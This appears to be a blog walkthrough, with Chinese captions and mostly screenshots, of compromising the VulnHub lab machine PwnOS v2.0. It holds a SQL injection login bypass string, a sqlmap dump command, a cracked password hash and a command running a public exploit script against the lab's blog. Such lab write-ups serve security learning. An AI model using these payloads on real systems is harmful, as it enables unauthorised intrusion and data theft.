 ```yaml
---
layout: post
title:  "vulnhub >_ PwnOS_v2.0"
description: walkthrough
category: vulnhub
---
```

# PwnOS_v2.0

![image-20200610201133904]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610201133904.png)

![image-20200610201312543]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610201312543.png)





nikto

![image-20200610201535808]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610201535808.png)

![image-20200610201652233]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610201652233.png)





![image-20200610205402607]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610205402607.png)

```bash
admin' or '1'='1'#
```

![image-20200610205559588]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610205559588.png)

登录无内容，保存登录包到文件，执行sqlmap注入

```bash
sqlmap -r login.txt  -dump
```



![image-20200610212725066]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610212725066.png)

`c2c4b4e51d9e23c02c15702c136c3e950ba9a4af`

![image-20200610212952414]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610212952414.png)

`killerbeesareflying`

另一页面

![image-20200610215354192]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610215354192.png)



![image-20200610215318888]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610215318888.png)

searchsploit

![image-20200610215953606]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610215953606.png)

![image-20200610220014421]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610220014421.png)



```bash
perl 1191.pl -h http://10.10.10.100/blog/ -e 3 -U evil -P evil
```

![image-20200610215918661]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610215918661.png)

![image-20200610220117364]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610220117364.png)

![image-20200610220413203]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610220413203.png)



![image-20200610221755087]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610221755087.png)



![image-20200610221048765]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610221048765.png)



![image-20200610221833155]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610221833155.png)

上传LinEnum到目标可写的/tmp，并执行

![image-20200610223726170]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610223726170.png)



![image-20200610224133592]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610224133592.png)



![image-20200610222729375]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610222729375.png)

![image-20200610222755529]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610222755529.png)

![image-20200610222829813]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610222829813.png)